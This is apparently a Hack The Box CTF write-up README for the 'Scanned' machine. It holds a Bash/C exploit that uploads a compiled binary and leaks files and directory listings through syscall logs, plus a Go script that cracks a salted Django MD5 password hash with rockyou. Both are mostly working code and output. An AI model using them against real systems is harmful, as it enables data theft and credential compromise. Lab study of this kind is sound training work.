 # Hack The Box. Machines. Scanned

Machine write-up: https://7rocky.github.io/en/htb/scanned

### `exploit.sh`

This Bash script is used to list directories and read files from the server. It has a C program embedded because we need to upload a compiled binary to the server in order to exfiltrate the information.

First of all, to use this script we must provide some parameters:

```bash
function help() {
        echo "[!] Usage: bash $0 <host> <f|d> <path-to-file|dir>"
	      exit 1
}

host=$1

if [ "$2" = "f" ]; then
	      read_file=1
	      file=$3
elif [ "$2" = "d" ]; then
        read_file=0
	      dir=$3
else
	      help
fi
```

So we need to enter the host IP address where the web server is listening, then `f` to read a file or `d` to list a directory and finally the path.

After that, the C program is compiled. Then we upload it and filter the results as shown in the [write-up](https://7rocky.github.io/en/htb/scanned) (a bit enhanced here because of some edge cases):

```bash
res=$(curl $host/scanner/upload/ -sLF file=@exploit)

hex=$(echo "$res" \
        | grep execve \
        | awk -F = '{ print $3 }' \
        | sed 's/<\/pre>//g' \
        | awk -F x '{ printf "%16s\n", $2 }' \
        | tr ' ' 0)

echo "$hex" | xxd -r -p
echo
```

The file we upload is called `exploit`, which is the compiled binary from the C code.

For the C code, what's important to notice is that we need to output the information in parts of 8 bytes (the [write-up](https://7rocky.github.io/en/htb/scanned) shows how the information is exfiltrated). In order to do that, we have a function called `read_file`:

```c
void read_file(char* path) {
  unsigned long ret = 0l;
  char ret_string[8] = {0, 0, 0, 0, 0, 0, 0, 0};
  int fd = open(path, O_RDONLY);

  while (read(fd, ret_string, 8)) {
    ret = 0l;

    for (int i = 0; i < 8; i++) {
      ret <<= 8;
      ret += ret_string[i];
      ret_string[i] = 0;
    }

    log_syscall(ret);
  }

  close(fd);
}
```

Basically, it takes a file path and reads 8 bytes from it. The 8 bytes are stored in `ret_string`, which is a `char` array. In order to transform the string into a decimal number, we use the `ret` variable, where we shift 8 bits to the left and add the next byte of `ret_string`. Finally, we use `log_syscall` (from the machine's source code) to output the exfiltrated information.

To list directories we can output the listing into a file called `tmp_file` and then use `read_file` to exfiltrate the information. So this is the `main` function:

```c
int main() {
  DIR* dr;
  struct dirent *de;
  FILE* fp;
  int do_read_file = $do_read_file;

  if (do_read_file) {
    read_file("$file");
    return 0;
  }

  fp = fopen("tmp_file", "wb");
  dr = opendir("$dir");

  while ((de = readdir(dr)) != NULL) {
    fprintf(fp, "%s\n", de->d_name);
  }

  closedir(dr);
  fclose(fp);

  read_file("tmp_file");
  return 0;
}
```

Notice that `$do_read_file`, `$file` and `$dir` are not valid C variables but Bash variables. However, this C code is wrapped in a "heredoc" so we can use string interpolation in Bash to print the contents of those variables, so that the C code is valid and compiles correctly using this syntax:

```bash
gcc -o exploit -xc - <<- __EOF__
  // C code
__EOF__
```

An example of execution could be this one:

```console
$ bash exploit.sh d /
[!] Usage: bash exploit.sh <host> <f|d> <path-to-file|dir>

$ bash exploit.sh 10.10.11.141 d /
tmp_file
.
log
lib
..
proc
userprog
lib64
usr
bin

$ bash exploit.sh 10.10.11.141 f /proc/1/fd/3/../../../../../etc/hostname
scanned
```

### `crack.go`

This script is used to crack a hashed password in Django format:

```plaintext
md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf
```

This hash is composed of three parts (divided by `$`), which is parsed in the script:

```go
	full_hash := os.Args[2]
	splitted_hash := strings.Split(full_hash, "$")
	alg, salt, hash := splitted_hash[0], splitted_hash[1], splitted_hash[2]

	fmt.Printf("[*] Algorithm: \t %s\n", alg)
	fmt.Printf("[*] Salt: \t %s\n", salt)
	fmt.Printf("[*] Hash: \t %s\n\n", hash)
```

Once done, we open the wordlist file and begin computing hashes using the same algorithm and salt until we find a coincidence:

```go
	file, err := os.Open(os.Args[1])

	if err != nil {
		fmt.Printf("File '%s' not found\n", os.Args[1])
	}

	defer file.Close()

	scanner := bufio.NewScanner(file)

	for scanner.Scan() {
		password := scanner.Text()

		if crack(salt, password) == hash {
			fmt.Println("[+] Cracked:", password)
			break
		}
	}
```

The function that computes the hash is called `crack`:

```go
func crack(salt, password string) string {
	return fmt.Sprintf("%x", md5.Sum([]byte(salt+password)))
}
```

We can run it like this:

```console
$ go run crack.go
Usage: go run crack.go <wordlist> <hash>
exit status 1

$ go run crack.go $WORDLISTS/rockyou.txt 'md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf'
[*] Algorithm:   md5
[*] Salt:        kL2cLcK2yhbp3za4w3752m
[*] Hash:        9886e17b091eb5ccdc39e436128141cf

[+] Cracked: onedayyoufeellikecrying
```
